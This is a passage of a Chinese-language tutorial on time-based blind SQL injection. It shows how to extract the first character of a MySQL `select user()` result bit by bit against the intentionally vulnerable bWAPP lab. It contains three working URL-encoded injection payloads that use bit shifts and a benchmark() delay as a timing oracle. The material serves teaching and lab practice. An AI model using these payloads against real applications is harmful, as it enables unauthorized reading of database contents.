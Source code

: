0111001 **0**

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220226-c5093ca0-d927-1.png)


现在我们可以得出结论，查询返回的第一个字符的二进制值：`select user()`是**01110010**，结果是十进制值为**114**。114是'**r**'字符的ASCII码。
```
mysql> select user();
 
+----------------+
 
| user()         |
 
+----------------+
 
| root@localhost |
 
+----------------+
 
1 row in set (0.00 sec)
```
为了演示这种类型的SQL盲注攻击，我已经讲述了怎样枚举在bWAPP上容易受到攻击的应用程序中由'`select user()`' 返回的第一个字符的第一个和最后一个二进制位：（https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/）

1.SQLi字符串为第一位返回一个TRUE条件：
```
test%27+and+if+((ascii((substr(user(),1,1)))+>>+7+)=0,benchmark(5000000,md5('test')),+'false')%23
```

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220317-e32d5176-d927-1.png)


2.SQLi字符串为第一位返回一个FALSE条件：
```
test%27+and+if+((ascii((substr(user(),1,1)))+>>+7+)=1,benchmark(5000000,md5('test')),+'false')%23
```

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220330-eae0a1d4-d927-1.png)

3.SQLi字符串为第8位返回TRUE条件：
```
test%27+and+if+((ascii((substr(user(),1,1)))+>>+0+)=114,benchmark(5000000,md5('test')),+'false')%23
```

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220340-f118cd1a-d927-1.png)

如果您喜欢这篇文章，请分享给您的朋友。
